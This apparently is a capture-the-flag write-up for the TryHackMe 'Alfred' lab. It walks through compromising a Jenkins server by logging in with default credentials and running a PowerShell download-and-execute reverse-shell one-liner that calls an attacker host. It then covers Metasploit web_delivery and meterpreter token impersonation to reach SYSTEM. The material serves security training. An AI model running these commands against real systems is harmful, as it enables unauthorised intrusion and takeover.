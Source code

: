 # Alfred

## 1. How many ports are open? (TCP only)
Rustscan showed 3 tcp ports that are opened

## 2. What is the username and password for the login panel? (in the format username:password)

Using default credentials admin:admin worked
Port 80 server doesn't have anything but 8080
has jenkins

## 3. What services allow for execution of command
Navigate to job -> project -> configure
We see that there is a textbox that allows us to
execute any command this allows us to gain reverse shell. Download the powershell script given in the thm website and input 
`powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.32.108:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.11.158 -Port 4444`. Before doing that you need to start a http server in the directory containing the reverse tcp ps1 file. After that we rebuild the project and now we have a reverse shell

## 4. Gaining shell
Run msfconsole and `use exploit/multi/script/web_delivery`. Then run `set exploit 2` to target powershell Then run `set payload windows/meterpreter/reverse_tcp` to change target platform to windows. Fill in your ip and the port you want to listen to then paste the generated payload into the configure textbox that allows us to run command. This should spawn a meterpreter

## 5. priv escalation
Load incognito in our meterpreter shell by running `load incognito`
Next we run `load_tokens -g` to see what token is currently available. We are particularly interested in BUILTIN\Administrators as this allows us to escalate our privilege. Now we run `impersonate_token "BUILTIN\Administrators"` and we see that the uid to impersonate as administrators is `NT AUTHORITY\SYSTEM`
Now we run ps to list all the process and we need to migrate to a process with `NT AUTHORITY\SYSTEM`. svchost.exe provides us with that. Run `migrate <ID of the process>` to migrate to the process. Now we should have admin privilege. Navigate to `C:\Windows\System32\config` to get root.txt 

